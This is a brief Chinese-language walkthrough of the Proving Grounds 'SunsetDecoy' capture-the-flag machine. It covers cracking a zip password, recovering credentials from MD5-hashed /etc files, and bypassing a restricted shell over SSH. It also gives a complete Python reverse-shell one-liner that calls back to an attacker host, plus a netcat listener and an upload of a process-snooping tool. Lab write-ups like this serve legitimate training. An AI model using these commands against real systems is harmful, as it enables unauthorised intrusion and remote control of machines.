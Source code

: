 # Proving Grounds-> SunsetDecoy      靶场笔记

下载save.zip

![image-20230421153824435](https://s2.loli.net/2023/04/23/MOu9fEmJGlBqjzV.png)

破解zip密码，github随便找个破解脚本跑一下就行了

解压之后拿到六个文件这六个文件都是etc下面的

![image-20230421154259288](https://s2.loli.net/2023/04/23/axH6MsepLwdD34E.png)

group中找到一个userid 296640a3b825115a47b68fc44501c828

hostname中的md5解开之后是decoy-10

passwd文件中也有找个用户名，密码是md5加密

解密之后是server

ssh登录，屏蔽掉配置文件

ssh 296640a3b825115a47b68fc44501c828@192.168.223.85 -t "bash --noprofile"  

反弹shell

sudo nc -nlvp 9919

/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.5",9919));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'



PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin

scp /home/moon/pspy64 296640a3b825115a47b68fc44501c828@192.168.223.85:/home/296640a3b825115a47b68fc44501c828

192.168.223.85